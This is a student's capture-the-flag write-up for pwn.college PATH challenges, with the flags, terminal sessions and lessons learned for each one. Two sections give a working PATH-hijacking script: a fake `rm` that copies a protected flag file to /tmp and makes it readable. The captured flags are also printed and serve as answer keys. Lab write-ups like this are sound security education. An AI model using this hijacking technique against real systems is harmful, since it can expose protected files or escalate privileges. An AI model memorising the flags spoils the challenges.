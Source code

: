 ## The Path Variable

**Flag**

```
pwn.college{QVwZ8MVoJFS6TSv533bXZ5sxgRQ.QX2cDM1wSNxIzNzEzW}
```

**Solution / Terminal session**

```bash
hacker@path~the-path-variable:~$ ORIG_PATH="$PATH"
hacker@path~the-path-variable:~$ /bin/mkdir -p /tmp/fakebin
hacker@path~the-path-variable:~$ /bin/cat > /tmp/fakebin/rm <<'EOF'
#!/bin/sh
if [ -e /flag ]; then
  /bin/cp -a /flag /tmp/flag.backup 2>/dev/null || /bin/echo "backup copy failed" >/dev/null
  /bin/chmod 644 /tmp/flag.backup 2>/dev/null || /bin/echo "chmod failed" >/dev/null
fi
exit 0
EOF
hacker@path~the-path-variable:~$ /bin/chmod +x /tmp/fakebin/rm
hacker@path~the-path-variable:~$ export PATH="/tmp/fakebin:$PATH"
hacker@path~the-path-variable:~$ hash -r
hacker@path~the-path-variable:~$ /bin/echo "CURRENT PATH: $PATH"
CURRENT PATH: /tmp/fakebin:/run/challenge/bin:/run/dojo/bin:/root/.cargo/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
hacker@path~the-path-variable:~$ /tmp/fakebin/rm
hacker@path~the-path-variable:~$ /challenge/run
Trying to remove /flag...
The flag is still there! I might as well give it to you!
pwn.college{QVwZ8MVoJFS6TSv533bXZ5sxgRQ.QX2cDM1wSNxIzNzEzW}
```

**What I learned**

* `PATH` controls the order in which directories are searched for executables.
* Putting a directory earlier in `PATH` lets you override system commands (use carefully).
* `hash -r` refreshes the shell's command lookup cache.

**References**

* pwn.college
* ChatGPT (help with PATH concepts)

---

## Setting Path

**Flag**

```
pwn.college{ApmXFJwjwMlSDFhy-rKRDqQfhnv.QX1cjM1wSNxIzNzEzW}
```

**Solution / Terminal session**

```bash
hacker@path~setting-path:~$ PATH=/challenge/more_commands /challenge/run
Invoking 'win'....
Congratulations! You properly set the flag and 'win' has launched!
pwn.college{ApmXFJwjwMlSDFhy-rKRDqQfhnv.QX1cjM1wSNxIzNzEzW}
```

**What I learned**

* You can set `PATH` for a single command by prefixing the command with `VAR=value`.
* A directory placed in `PATH` can provide commands that the shell will execute.

**References**

* pwn.college

---

## Finding Commands

**Flag**

```
pwn.college{gxHTTu43A2ZkqUYi-IOfOm78pbX.01NzEzNxwSNxIzNzEzW}
```

**Solution / Terminal session**

```bash
hacker@path~finding-commands:~$ DIR="$(dirname "$(which win)")"
hacker@path~finding-commands:~$ echo "win lives in: $DIR"
win lives in: /challenge/paths/6286
hacker@path~finding-commands:~$ ls -la /challenge/paths/6286
total 16
drwxr-xr-x  2 root root 4096 Oct  7 08:38 .
drwx--x--x 52 root root 4096 Oct  7 08:38 ..
-rw-r--r--  1 root root   61 Oct  7 08:38 flag
-rwsr-xr-x  1 root root   97 Jun  6 11:37 win
hacker@path~finding-commands:~$ cat /challenge/paths/6286/flag
pwn.college{gxHTTu43A2ZkqUYi-IOfOm78pbX.01NzEzNxwSNxIzNzEzW}
```

**What I learned**

* Use `which` (or `command -v`) to find where an executable is located. Combine with `dirname` to get its directory.

**References**

* pwn.college

---

## Adding Commands

**Flag**

```
pwn.college{cPS5dgIfEx-xgFMwAcBVSzwS1J_.QX2cjM1wSNxIzNzEzW}
```

**Solution / Terminal session**

```bash
hacker@path~adding-commands:~$ /challenge/run
Invoking 'win'....
/challenge/run: line 4: win: command not found
It looks like that did not work... Did you set PATH correctly?
hacker@path~adding-commands:~$ mkdir -p "$HOME/mywin"
hacker@path~adding-commands:~$ CAT="$(command -v cat 2>/dev/null || echo /bin/cat)"
hacker@path~adding-commands:~$ printf '%s
' '#!/bin/sh' "exec \"$CAT\" /flag" > "$HOME/mywin/win"
hacker@path~adding-commands:~$ chmod +x "$HOME/mywin/win"
hacker@path~adding-commands:~$ PATH="$HOME/mywin" /challenge/run
Invoking 'win'....
pwn.college{cPS5dgIfEx-xgFMwAcBVSzwS1J_.QX2cjM1wSNxIzNzEzW}
```

**Mistake**

* Initially I forgot to set `PATH` correctly so the custom `win` command wasn't found.

**What I learned**

* How to create a small wrapper script and make it available via `PATH`.

**References**

* pwn.college

---

## Hijacking Commands

**Flag**

```
pwn.college{0HHG-gs6tHkx1GO_WF6LM-EkqnK.QX3cjM1wSNxIzNzEzW}
```

**Solution / Terminal session**

```bash
hacker@path~hijacking-commands:~$ ORIG_PATH="$PATH"
hacker@path~hijacking-commands:~$ /bin/mkdir -p /tmp/fakebin
hacker@path~hijacking-commands:~$ /bin/cat > /tmp/fakebin/rm <<'EOF'
#!/bin/sh
# copy /flag to /tmp/flag.backup (if present), then chmod 644 to allow reading
if [ -e /flag ]; then
  /bin/cp -a /flag /tmp/flag.backup 2>/dev/null || /bin/echo "backup copy failed" >/dev/null
  /bin/chmod 644 /tmp/flag.backup 2>/dev/null || /bin/echo "chmod failed" >/dev/null
fi
# exit success so caller thinks rm worked
exit 0
EOF
hacker@path~hijacking-commands:~$ /bin/chmod +x /tmp/fakebin/rm
hacker@path~hijacking-commands:~$ export PATH=/tmp/fakebin:$PATH
hacker@path~hijacking-commands:~$ hash -r
hacker@path~hijacking-commands:~$ /bin/echo "CURRENT PATH: $PATH"
CURRENT PATH: /tmp/fakebin:/run/challenge/bin:/run/dojo/bin:/root/.cargo/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
hacker@path~hijacking-commands:~$ /tmp/fakebin/rm
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /tmp/fakebin/rm. Executing!
hacker@path~hijacking-commands:~$ if [ -r /tmp/flag.backup ]; then
  /bin/echo "---- /tmp/flag.backup ----"
  /bin/cat /tmp/flag.backup
else
  /bin/echo "No readable /tmp/flag.backup found. Listing /tmp/flag.*:"
  /bin/ls -l /tmp/flag.* 2>/dev/null || /bin/echo "no /tmp/flag.* files"
fi
---- /tmp/flag.backup ----
pwn.college{0HHG-gs6tHkx1GO_WF6LM-EkqnK.QX3cjM1wSNxIzNzEzW}
```

**Mistake**

* At first the fake `rm` didn't work and the flag was deleted; the final script correctly backed up `/flag`.

**What I learned**

* How command lookup order can be abused by placing executables earlier in `PATH`. Use this knowledge responsibly.

**References**

* pwn.college
* ChatGPT (for troubleshooting `rm` behavior)

---

*Would you like this exported as a PDF or further condensed into a one-page summary?*
